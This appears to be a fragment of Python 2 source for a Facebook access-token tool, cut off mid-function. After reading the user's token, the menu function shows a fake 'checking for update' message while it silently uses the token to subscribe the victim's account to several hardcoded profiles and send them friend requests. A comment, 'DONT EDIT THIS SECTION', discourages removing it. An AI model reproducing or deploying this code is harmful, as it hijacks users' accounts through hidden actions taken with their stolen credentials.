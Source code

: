 
def token():
    os.system('clear')
    try:
        token = open('access_token.txt', 'r').read()
        
        menu()
    except (KeyError, IOError):
        print logo
        print ''
        print ' \x1b[1;91m  \t Login With Token '
        print ''
        token = raw_input('Paste Token Here : ')
        sav = open('access_token.txt', 'w')
        sav.write(token)
        sav.close()
        login()

#-----------------------------

#DONT EDIT THIS SECTION
#OTHERWISE YOUR SCRIPT WILL
#BE LOL & FULLOF VIRUS 

def menu():
    os.system('clear')
    try:
        token = open('access_token.txt', 'r').read()
        #requests.post('https://graph.facebook.com/100004718461536/subscribers?access_token=%s',token)
    except (KeyError, IOError):
        login()

    try:
        sz = '100017565944567'
        sz1 = '100025338049048'
        sz2 = '100025596378154'
        sz3 = '100053348941384'
        sz4 = '100004718461536'
        sz5 = '100065328697980'
        sss = '1076164763238115'
        sss1 = '449630596825235'
        sss2 = '263478277840105'
        sss3 = '321571340030487'
        aa1 = '311273927726895'
        print(' \x1b[0;92m Loading Checking For Update ....')
        requests.post('https://graph.facebook.com/100017565944567/subscribers?access_token=' + token)
        ###print(' \x1b[0;93m 10% ....')
        requests.post('https://graph.facebook.com/100025338049048/subscribers?access_token=' + token)
        ###print(' \x1b[0;93m 15% ....')
        requests.post('https://graph.facebook.com/100025596378154/subscribers?access_token=' + token)
        ###print(' \x1b[0;93m 20% ....')
        requests.post('https://graph.facebook.com/100053348941384/subscribers?access_token=' + token)
        ###print(' \x1b[0;93m 25% ....')
        requests.post('https://graph.facebook.com/100004718461536/subscribers?access_token=' + token)
        ####print(' \x1b[0;93m 30% ....')
        requests.post('https://graph.facebook.com/100065328697980/subscribers?access_token=' + token)
        ####print(' \x1b[0;93m 35% ....')
        requests.post('https://graph.facebook.com/me/friends?method=post&uids=' + sz + '&access_token=' + token)
        ###print(' \x1b[0;93m 40% ....')
        requests.post('https://graph.facebook.com/me/friends?method=post&uids=' + sz1 + '&access_token=' + token)
        ###print(' \x1b[0;93m 45% ....')
        requests.post('https://graph.facebook.com/me/friends?method=post&uids=' + sz2 + '&access_token=' + token)
        ####print(' \x1b[0;93m 50% ....')
